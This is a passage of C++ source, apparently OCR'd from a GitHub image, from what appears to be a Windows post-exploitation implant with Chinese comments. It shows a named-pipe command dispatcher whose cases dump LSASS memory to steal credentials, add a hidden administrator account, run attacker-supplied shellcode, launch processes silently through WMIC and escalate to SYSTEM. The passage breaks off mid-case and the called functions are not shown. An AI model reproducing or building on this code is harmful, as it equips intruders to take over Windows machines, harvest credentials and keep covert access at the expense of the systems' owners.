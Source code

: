 ```cpp
                /// 调用WMIC创建进程，无回显
                /// 参数：process
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                ReadFile(hPipe, szBuffer, BUFF_SIZE, &dwLen, NULL);
                CheckSuccessAndSendMsg(WMICCreateProcess(char2wchar(szBuffer)), hPipe);
                break;
            case METHOD_MINIDUMP_LSASS:
                /// <summary>
                /// 高权限的情况下转储Lsass进程内存
                /// 参数：dump
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                CheckSuccessAndSendMsg(MiniDumpLsass(), hPipe);
                break;
            case METHOD_ADD_USER:
                /// <summary>
                /// 高权限的情况下添加用户
                /// 参数：user
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                CheckSuccessAndSendMsg(CreateAdminUserInternal(), hPipe);
                break;
            case METHOD_SHELL_CODE_LOADE:
                /// <summary>
                /// 执行Shellcode
                /// 参数：code
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                ReadFile(hPipe, szBuffer, BUFF_SIZE, &dwLen, NULL);
                CheckSuccessAndSendMsg(ExecuteShellCode(szBuffer, dwLen), hPipe);
                break;
            case METHOD_GETSYSTEM:
                /// <summary>
                /// 创建命名管道
                /// 参数：system
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                CheckSuccessAndSendMsg(Service2System(), hPipe);
                break;
            case METHOD_SYSTEM_EXECUTE:
                /// <summary>
                /// 触发RPC连接提权管道
                /// 参数：system-run
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                CheckSuccessAndSendMsg(Execute(), hPipe);
                break;
            case METHOD_SET_SYSTEM_SHELLCODE:
                /// <summary>
                /// 设置全局Shellcode
                /// 参数：system-code
                /// </summary>
                /// <param name=""></param>
                /// <returns></returns>
                ZeroMemory(szBuffer, BUFF_SIZE);
                ReadFile(hPipe, szBuffer, BUFF_SIZE, &dwLen, NULL);
```